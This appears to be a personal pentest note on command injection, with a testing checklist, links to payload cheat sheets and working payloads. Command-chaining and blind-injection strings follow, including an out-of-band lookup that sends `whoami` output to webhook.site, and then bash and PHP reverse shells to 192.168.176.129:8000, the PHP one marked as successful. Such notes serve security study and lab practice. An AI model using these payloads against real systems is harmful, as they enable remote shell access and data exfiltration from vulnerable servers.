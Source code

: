 * #commandInjection #reverseshell
*  https://appsecexplained.gitbook.io/appsecexplained/common-vulns/command-injection
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md  
* Filter bypass [Payloads allthethings Filter bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection) 
## Testing
- Determine the technology stack: Which operating system and server software are in use?
- Identify potential injection points: URL parameters, form fields, HTTP headers, etc.
- Test for simple injections with special characters like ;, &&, ||, and |. Test for injection within command arguments.
- Test for blind command injection, where output is not returned in the response. If output isn't directly visible, try creating outbound requests (e.g. using ping or curl).
- Try to escape from any restriction mechanisms, like quotes or double quotes.
- Test with a list of potentially dangerous functions/methods (like exec(), system(), passthru() in PHP, or exec, eval in Node.js).
- Test for command injection using time delays (ping -c localhost).
- Test for command injection using &&, ||, and ;.
- Test with common command injection payloads, such as those from PayloadsAllTheThings.
- 
If there's a filter in place, try to bypass it using various techniques like encoding, command splitting, etc.
## Basic command chaining

```shell
; ls -la

# Using logic operators
&& ls -la

# Commenting out the rest of a command
; ls -la #

# Using a pipe for command chaining
| ls -la

# Testing for blind injection
; sleep 10
; ping -c 10 127.0.0.1
& whoami > /var/www/html/whoami.txt &

# Out-of-band testing
& nslookup webhook.site/<id>?`whoami` &
```

## Command Inject - BASH shell
* we can grab reverse shell from : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md  
```shell
bash -i >& /dev/tcp/192.168.176.129/8000 0>&1  ## this didn't work
/bin/bash -i >& /dev/tcp/192.168.176.129/8000 0>&1  ## this didn't work

; which php; asdf
#  Result  /usr/local/bin/php 


# switching to php shell

php -r '$sock=fsockopen("192.168.176.129",8000);exec("/bin/sh -i <&3 >&3 2>&3");'
# SUCCESS!! This worked
```

